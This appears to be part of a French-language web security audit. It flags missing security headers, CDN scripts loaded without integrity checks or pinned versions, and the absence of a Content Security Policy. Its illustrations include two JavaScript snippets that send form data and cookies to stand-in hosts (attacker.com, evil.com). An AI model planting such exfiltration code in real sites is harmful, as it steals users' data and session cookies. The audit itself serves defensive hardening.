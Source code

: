 **Risques** :
- ❌ **Clickjacking** : Votre site peut être intégré dans une iframe malveillante
- ❌ **XSS (Cross-Site Scripting)** : Injection de scripts malveillants possible
- ❌ **MIME sniffing attacks** : Le navigateur peut mal interpréter les types de fichiers
- ❌ **Man-in-the-middle attacks** : Pas de forcing HTTPS

---

### 2. DÉPENDANCES EXTERNES NON SÉCURISÉES (CRITIQUE)

**Sévérité** : 🔴 **CRITIQUE**
**Impact** : Supply chain attack, compromission totale du site

#### Scripts chargés depuis des CDN non vérifiés :

```html
❌ https://cdn.tailwindcss.com (SANS SRI)
❌ https://unpkg.com/react@18/umd/react.production.min.js (SANS SRI)
❌ https://unpkg.com/react-dom@18/umd/react-dom.production.min.js (SANS SRI)
❌ https://unpkg.com/@babel/standalone/babel.min.js (SANS SRI)
❌ https://unpkg.com/lucide@latest (VERSION NON FIXÉE + SANS SRI)
```

**Problèmes** :
1. **Aucune vérification d'intégrité** (SRI - Subresource Integrity)
2. **Versions non fixées** : `@latest` peut changer sans préavis
3. **CDN compromis** : Si unpkg.com ou cdn.tailwindcss.com sont hackés, votre site l'est aussi

**Exemple d'attaque possible** :
```javascript
// Si unpkg.com est compromis, ceci peut être injecté :
window.addEventListener('submit', (e) => {
  // Vol de toutes les données utilisateur
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify(formData)
  });
});
```

---

### 3. ABSENCE DE CONTENT SECURITY POLICY (CSP)

**Sévérité** : 🔴 **CRITIQUE**
**Impact** : Injection de scripts malveillants, vol de données

#### Risques sans CSP :

- ✅ **Scripts inline autorisés** : Tout JavaScript dans `<script>` tags s'exécute
- ✅ **Scripts externes non filtrés** : N'importe quel domaine peut charger du JS
- ✅ **Eval() autorisé** : Code dynamique dangereux possible
- ✅ **Iframes non restreintes** : Site intégrable partout

**Attaques possibles** :
```javascript
// XSS persistant via commentaire infecté (si vous aviez des commentaires)
<script>
  document.cookie.split(';').forEach(c => {
    fetch('https://evil.com/steal?cookie=' + c);
  });
</script>
```

---